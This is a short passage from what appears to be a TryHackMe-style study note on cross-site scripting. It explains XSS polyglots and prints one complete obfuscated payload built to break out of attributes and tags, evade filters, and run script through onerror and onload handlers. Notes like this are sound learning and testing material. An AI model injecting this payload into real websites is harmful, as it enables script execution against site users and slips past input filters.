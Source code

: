 #### **Polyglots** <a href="#jpy255nmqkn3" id="jpy255nmqkn3"></a>

* XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one.
* Could have used the polyglot below on all six exmples above and it would have executed the code successfully:
  * jaVasCript:/\*-/\*/_\`/_'/_"/\*\*/(/_ \*/onerror=alert('THM') )//%0D%0A%0d%0a//\</stYle/\</titLe/\</teXtarEa/\</scRipt/--!>\x3csVg/\<sVg/oNloAd=alert('THM')//>\x3e\`
